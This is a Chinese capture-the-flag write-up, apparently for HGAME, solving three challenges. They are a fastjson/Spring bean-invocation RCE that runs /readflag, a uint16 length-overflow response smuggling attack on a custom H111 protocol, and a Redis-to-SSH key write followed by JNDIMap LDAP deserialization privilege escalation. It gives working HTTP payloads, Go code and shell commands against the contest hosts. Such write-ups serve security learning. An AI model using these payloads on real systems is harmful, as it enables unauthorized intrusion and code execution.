

关键代码如下

```java
package icu.Liki4.signin.util;

import com.alibaba.fastjson2.JSON;
import com.alibaba.fastjson2.JSONException;
import com.alibaba.fastjson2.JSONReader;
import com.alibaba.fastjson2.filter.Filter;
import java.lang.reflect.Method;
import java.util.Arrays;
import java.util.Date;
import java.util.List;
import java.util.Map;
import java.util.Objects;
import java.util.Set;
import java.util.stream.Collectors;
import org.springframework.context.annotation.Lazy;

/* loaded from: SigninJava.jar:BOOT-INF/classes/icu/Liki4/signin/util/InvokeUtils.class */
public class InvokeUtils {

    @Lazy
    private static final Filter autoTypeFilter = JSONReader.autoTypeFilter((String[]) ((Set) Arrays.stream(SpringContextHolder.getApplicationContext().getBeanDefinitionNames()).map(name -> {
        int secondDotIndex = name.indexOf(46, name.indexOf(46) + 1);
        if (secondDotIndex != -1) {
            return name.substring(0, secondDotIndex + 1);
        }
        return null;
    }).filter((v0) -> {
        return Objects.nonNull(v0);
    }).collect(Collectors.toSet())).toArray(new String[0]));

    public static Object invokeBeanMethod(String beanName, String methodName, Map<String, Object> params) throws Exception {
        Object beanObject = SpringContextHolder.getBean(beanName);
        Method beanMethod = (Method) Arrays.stream(beanObject.getClass().getMethods()).filter(method -> {
            return method.getName().equals(methodName);
        }).findFirst().orElse(null);
        if (beanMethod.getParameterCount() == 0) {
            return beanMethod.invoke(beanObject, new Object[0]);
        }
        String[] parameterTypes = new String[beanMethod.getParameterCount()];
        Object[] parameterArgs = new Object[beanMethod.getParameterCount()];
        for (int i = 0; i < beanMethod.getParameters().length; i++) {
            Class<?> parameterType = beanMethod.getParameterTypes()[i];
            String parameterName = beanMethod.getParameters()[i].getName();
            parameterTypes[i] = parameterType.getName();
            if (!parameterType.isPrimitive() && !Date.class.equals(parameterType) && !Long.class.equals(parameterType) && !Integer.class.equals(parameterType) && !Boolean.class.equals(parameterType) && !Double.class.equals(parameterType) && !Float.class.equals(parameterType) && !Short.class.equals(parameterType) && !Byte.class.equals(parameterType) && !Character.class.equals(parameterType) && !String.class.equals(parameterType) && !List.class.equals(parameterType) && !Set.class.equals(parameterType) && !Map.class.equals(parameterType)) {
                if (params.containsKey(parameterName)) {
                    parameterArgs[i] = JSON.parseObject(JSON.toJSONString(params.get(parameterName)), (Class) parameterType, autoTypeFilter, new JSONReader.Feature[0]);
                } else {
                    try {
                        parameterArgs[i] = JSON.parseObject(JSON.toJSONString(params), (Class) parameterType, autoTypeFilter, new JSONReader.Feature[0]);
                    } catch (JSONException e) {
                        for (Map.Entry<String, Object> entry : params.entrySet()) {
                            Object value = entry.getValue();
                            if ((value instanceof String) && ((String) value).contains("\"")) {
                                params.put(entry.getKey(), JSON.parse((String) value));
                            }
                        }
                        parameterArgs[i] = JSON.parseObject(JSON.toJSONString(params), (Class) parameterType, autoTypeFilter, new JSONReader.Feature[0]);
                    }
                }
            } else {
                parameterArgs[i] = params.getOrDefault(parameterName, null);
            }
        }
        return beanMethod.invoke(beanObject, parameterArgs);
    }
}
```

`invokeBeanMethod`方法可以通过`invoke`来调用`beanName` 对应的 Spring Bean，先注册一个 `RuntimeUtil` Bean，利用 `hutool` 的 `RuntimeUtil` 类执行命令（RCE）。通过反射，攻击者可以调用 `SpringUtil` 的 `registerBean` 方法，将 `RuntimeUtil` 注册到 Spring 容器中，就可以调用`execForStr`来进行RCE了

```http
POST /api/gateway HTTP/1.1
Host: node1.hgame.vidar.club:32393
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Pragma: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Cache-Control: no-cache
Content-Type: application/json

{"beanName":"cn.hutool.extra.spring.SpringUtil","methodName":"registerBean","params":{"arg0":"execCmd","arg1":{"@type":"cn.hutool.core.util.RuntimeUtil"}}}
```

```http
POST /api/gateway HTTP/1.1
Host: node1.hgame.vidar.club:32393
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Pragma: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Cache-Control: no-cache
Content-Type: application/json

{"beanName":"execCmd","methodName":"execForStr","params":{"arg0":"utf-8","arg1":["/readflag"]}}
```

题目好像是不出网的，弹不成功

## **Level 111 不存在的车厢**

```go
listener, err := net.Listen("tcp", "127.0.0.1:8080")
	if err != nil {
		log.Fatalln(err)
	}
	for {
		conn, err := listener.Accept()
		if err != nil {
			log.Println(err)
			continue
		}
		go serverH111(conn)
	}
```

这里进行了链接的复用

```go
func WriteH111Request(writer io.Writer, req *http.Request) error {
	methodBytes := []byte(req.Method)
	if err := binary.Write(writer, binary.BigEndian, uint16(len(methodBytes))); err != nil {
		return errors.Join(ErrWriteH111Request, err)
	}
	if _, err := writer.Write(methodBytes); err != nil {
		return errors.Join(ErrWriteH111Request, err)
	}

	pathBytes := []byte(req.RequestURI)
	if err := binary.Write(writer, binary.BigEndian, uint16(len(pathBytes))); err != nil {
		return errors.Join(ErrWriteH111Request, err)
	}
	if _, err := writer.Write(pathBytes); err != nil {
		return errors.Join(ErrWriteH111Request, err)
	}

	headerCount := uint16(len(req.Header))
	if err := binary.Write(writer, binary.BigEndian, headerCount); err != nil {
		return errors.Join(ErrWriteH111Request, err)
	}

	for key, values := range req.Header {
		keyBytes := []byte(key)
		if err := binary.Write(writer, binary.BigEndian, uint16(len(keyBytes))); err != nil {
			return errors.Join(ErrWriteH111Request, err)
		}
		if _, err := writer.Write(keyBytes); err != nil {
			return errors.Join(ErrWriteH111Request, err)
		}

		for _, value := range values {
			valueBytes := []byte(value)
			if err := binary.Write(writer, binary.BigEndian, uint16(len(valueBytes))); err != nil {
				return errors.Join(ErrWriteH111Request, err)
			}
			if _, err := writer.Write(valueBytes); err != nil {
				return errors.Join(ErrWriteH111Request, err)
			}
		}
	}

	if req.Body != nil {
		body, err := io.ReadAll(req.Body)
		if err != nil {
			return errors.Join(ErrWriteH111Request, err)
		}
		if err := binary.Write(writer, binary.BigEndian, uint16(len(body))); err != nil {
			return errors.Join(ErrWriteH111Request, err)
		}
		if _, err := writer.Write(body); err != nil {
			return errors.Join(ErrWriteH111Request, err)
		}
	} else {
		if err := binary.Write(writer, binary.BigEndian, uint16(0)); err != nil {
			return errors.Join(ErrWriteH111Request, err)
		}
	}

	return nil
}
```

这里对长度进行了计算和写入，也就是说可能溢出，引用出题人的话

> 研究H111协议序列化代码的时候可以发现，H111协议满⾜⼀个 Len+Data 的格式，同时所有的 Length字段都是uint16并且没有任何溢出检查，所以当⼀个⼤于uint16最⼤值的Length被序列化时会 产⽣整数溢出，改变序列化后的语义。 当 Len 为 65536 的时候，会溢出为0，此时读取⻓度为0的Data，后⾯这段数据会被搁置。 随后，我们观察到，H111协议存在 pipeline 以及连接复⽤，我们前⾯搁置的部分数据会被按照第⼆个 请求解析并响应，在外部第⼆个请求打到 proxy 的时候，有⼀定概率复⽤同个连接并⾛私出这⼀部分 response

也就是说打这个溢出，我们就可能走私到数据，写一个程序，看看溢出的极限是多少

```go
package protocol

import (
	"bytes"
	"encoding/hex"
	"testing"
	"net/http"
)

func TestGenRequest(t *testing.T) {
	var buf bytes.Buffer
	err := WriteH111Request(&buf, &http.Request{
		Method:      "POST",
		RequestURI: "/flag",
	})
	if err != nil {
		t.Fatalf("expected no error, got %v", err)
	}
	t.Log(len(buf.Bytes()))
	t.Log(hex.EncodeToString(buf.Bytes()))
}
```

然后运行`go test -v`，这个命令是寻找所有`_test.go`并且运行`Test`开头的函数



转化为十进制然后补零补到65536

```http
GET / HTTP/1.1
Host: node1.hgame.vidar.club:30328

{{hexdec(0004504f535400052f666c616700000000)}}{{padding:zero(0|65519)}}
```

多发几次包访问`/flag`即可，本来打算高并发了，结果一看成功了，就发了几次包

## **Level 257 日落的紫罗兰**

给了个TCP，又没有东西，所以选择扫描一下，结果没有扫出来，直接nc发现一个是ssh一个是Redis

```
root@dkcjbRCL8kgaNGz:~# nc node1.hgame.vidar.club 32204
SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u3

Invalid SSH identification string.

root@dkcjbRCL8kgaNGz:~# nc node1.hgame.vidar.club 32010


s
-ERR unknown command `s`, with args beginning with:
ls
-ERR unknown command `ls`, with args beginning with:
pwd
-ERR unknown command `pwd`, with args beginning with:
```

题目给了一个`user.txt`，Redis可以用来写入sshKey，ssh就可控了，再上传ldap来进行java提权，先处理Redis的部分，其中应该是进行了遍历得知mysid是用户名

```
ssh-keygen -t rsa
cd root/.ssh
(echo -e “\n\n”; cat ./id_rsa.pub; echo -e “\n\n”) > spaced_key.txt

cat spaced_key.txt | redis-cli -h node1.hgame.vidar.club -p 32010 -x set ssh_key
redis-cli -h node1.hgame.vidar.club -p 32010
config set dir /home/mysid/.ssh
config set dbfilename "authorized_keys"
save
exit
```

然后连ssh再来提权

```
ssh -i id_rsa mysid@node1.hgame.vidar.club -p 32204
scp -i /root/.ssh/id_rsa -P 32204 ./JNDIMap-0.0.1.jar mysid@node1.hgame.vidar.club:/tmp

/usr/local/openjdk-8/bin/java -jar /tmp/JNDIMap-0.0.1.jar -i 127.0.0.1 -l 389 -u "/Deserialize/Jackson/Command/Y2htb2QgNzc3IC9mbGFn"

# 再开一个终端链接
ssh -i id_rsa mysid@node1.hgame.vidar.club -p 32204
curl -X POST -d "baseDN=a/b&filter=a" http://127.0.0.1:8080/search
cat /flag
```

